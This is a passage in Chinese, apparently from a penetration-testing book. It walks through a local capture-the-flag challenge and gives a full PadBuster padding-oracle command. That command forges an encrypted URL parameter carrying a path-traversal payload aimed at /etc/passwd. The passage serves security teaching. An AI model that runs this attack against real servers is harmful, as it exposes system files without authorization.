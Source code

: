 图 6.21 – 不同格式的解密数据

我们只是回过头来，使用相同的命令，但在最后加上`plaintext`标志。就这样。PadBuster 让这一切变得*太*简单了：

# padbuster "`http://127.0.0.1/ctf/challenge1/?&c=` 81c14e504d73a84cc6279ab62d3259f6e2a2f52dbc5387d57911ee7565c

5a829" 81c14e504d73a84cc6279ab62d3259f6e2a2f52dbc5387d

57911ee7565c5a829 16 -noiv -encoding 1 -plaintext "lFA5\\C84VQE_T|../../../../../../../../../etc/passwd"

这将输出一个加密值。现在，我们只需将 URL 中的`c=`值替换为以下字符串：

![图 6.22 – 我们需要发送的加密值](img/Figure_6.22_B17616.jpg)

图 6.22 – 我们需要发送的加密值

现在，我们可以将其粘贴到 URL 中并按*Enter*，瞧！——服务器理解了我们的请求：

![图 6.23 – 捕获的标志](img/Figure_6.23_B17616.jpg)

图 6.23 – 捕获的标志
